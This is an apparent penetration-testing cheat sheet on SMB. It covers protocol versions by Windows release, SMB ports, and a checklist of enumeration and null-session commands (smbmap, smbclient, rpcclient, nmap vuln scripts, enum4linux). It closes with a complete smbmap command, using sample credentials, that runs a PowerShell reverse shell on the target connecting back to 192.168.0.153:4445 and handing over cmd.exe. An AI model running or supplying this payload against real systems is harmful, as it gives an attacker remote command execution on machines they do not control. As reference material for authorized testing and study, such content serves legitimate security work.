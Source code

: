 | SMB Version | Windows version                                                          |
| ----------- | ------------------------------------------------------------------------ |
| CIFS        | Microsoft Windows NT 4.0                                                 |
| SMB 1.0     | Windows 2000, Windows XP, Windows Server 2003 and Windows Server 2003 R2 |
| SMB 2.0     | Windows Vista & Windows Server 2008                                      |
| SMB 2.1     | Windows 7 and Windows Server 2008 R2                                     |
| SMB 3.0     | Windows 8 and Windows Server 2012                                        |
| SMB 3.0.2   | Windows 8.1 and Windows Server 2012 R2                                   |
| SMB 3.1.1   | Windows 10 and Windows Server 2016                                       |



**SMB uses the following TCP and UDP ports:**

```
netbios-ns 137/tcp # NETBIOS Name Service
netbios-ns 137/udp
netbios-dgm 138/tcp # NETBIOS Datagram Service
netbios-dgm 138/udp
netbios-ssn 139/tcp # NETBIOS session service
netbios-ssn 139/udp
microsoft-ds 445/tcp # if you are using Active Directory
```

#### &#x20;<a href="#checklist" id="checklist"></a>

#### Checklist <a href="#checklist" id="checklist"></a>

* Enumerate Hostname - `nmblookup -A $ip`
* List Shares
  * `smbmap -H $ip`
  * `echo exit | smbclient -L \\\\$ip`
  * `nmap --script smb-enum-shares -p 139,445 $ip`
* Check Null Sessions
  * `smbmap -H $ip`
  * `rpcclient -U "" -N $ip`
  * `smbclient \\\\$ip\\[share name]`
* Check for Vulnerabilities - `nmap --script smb-vuln* -p 139,445 $ip`
* Overall Scan - `enum4linux -a $ip`
* Manual Inspection
  * `smbver.sh $ip (port)`

Get a shell with smbmap

```
smbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
```
